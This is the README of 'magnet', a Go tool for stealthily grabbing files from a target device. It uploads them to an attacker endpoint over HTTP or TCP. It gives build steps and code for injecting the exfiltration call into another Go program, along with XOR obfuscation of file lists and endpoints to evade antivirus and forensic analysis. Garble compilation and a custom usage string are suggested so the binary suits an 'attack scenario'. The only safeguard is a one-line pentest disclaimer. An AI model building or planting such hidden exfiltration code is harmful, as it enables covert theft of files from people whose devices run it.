 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  Grab interesting files from target</strong><br>

  <b><i>Cross-platform</i></b>
  <b><i>Stealth</i></b>
  <b><i>Portable</i></b>  
  </pre>
</div>

The library is built to fetch predefined files of interest from a remote device. It assumes that an HTTP endpoint is listening when the program is launched.

**Program execution on target will stealthy provide you the files you ask for.**

You have 2 possibilities:
* [Hide exfiltration in your program](#-inject-magnet-in-your-go-program)
* [Use the standalone `magnet` executable](#-standalone)

<sup><i>For educational purpose only or during pentest assessment with prior permission</i></sup>

## Usage

All the work is made **At compilation time**, you need to specify:
* The ***remote endpoint***, where juicy files are uploaded
* The ***Juicy files***, list of files you want to grab
* The ***target os***, to fit the target (between: `windows`, `darwin`, `linux`)
* The ***method*** uses for exfiltration (`http`, `tcp`)
```shell
export KEY=[YOUR_KEY]
export FILES=[FILENAME]
export ENDPOINT=[ATTACKER_ENDPOINT]
export TARGET_OS=[TARGET_OS]
export METHOD=[EXFILTRATION_METHOD]
```

### 🥷 Inject `magnet` in your Go program

1. Add `magnet` import and declare variables outside your `main()` function:
```golang
import "github.com/ariary/magnet/pkg/magnet"

var FileList,Key,Endpoint,Method string
```

2. Add magnet payload in the `main()`:
```golang
	sender := magnet.InitMagnetSender(Method)
	magnet.Magnet(sender, FileList, Endpoint, Key, debug)
```

3. Finally, modify the build command by adding `-ldflags "-X 'main.FileList=$FILES' -X 'main.Key=$KEY' -X 'main.Endpoint=$ENDPOINT' -X 'main.Method=$METHOD'"`

see [declare `magnet`environment variables](#declare-magnet-envar)

### ⚡ Standalone



To build `magnet` binary in one step:
```shell
# ensure lobfuscator is in your PATH
./build.sh $TARGET_OS $FILES $ENDPOINT $KEY $METHOD
```

See [`lobfuscator`](#build-lobfuscator) and [full example](https://github.com/ariary/magnet/blob/main/examples/EXAMPLES.md)


### Obfuscation/Encryption

To avoid detection systems, as we are seeking for sensitive files, **the different files we want to grab must not be in clear text within the binary** . Hence it used basic encryption with the key to decrypt embedded in binary. *(The aim is only to avoid AV and Detection system not to have strong encryption scheme)*

The same thing is made for the remote endpoints, to make the forensic analysis harder.

`lobfuscator` is the simple tool to perform the XOR encryption/decryption.

An exemple to build the obfuscated list:
```shell
cat [FILE] | lobfuscator $KEY > obfuscated.txt
# decrypt: cat obfuscated.txt | lobfuscator -d $KEY
```

#### Build `lobfuscator`
```shell
make build.lobfuscator
```

#### Declare `magnet` envar

Define `FILES` and `ENDPOINT` envar:
```shell
export FILES=$(cat [FILE] | lobfuscator $KEY)
export ENDPOINT=$(echo "[ENDPOINT]" | lobfuscator $KEY)
```

## Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario (for standalone use)
* To enhance the binary obfuscation use [`garble`](https://github.com/burrowers/garble) to compile `magnet` instead of `go`(adapt `build.sh` consequently)

## To do

* Handle directories
* Use other protocols to send files (ICMP, DNS, SMTP, etc...)
* `magnetgentool` is on the making, it will be used with `//go:generate` comment to stealthy inject magnet code.
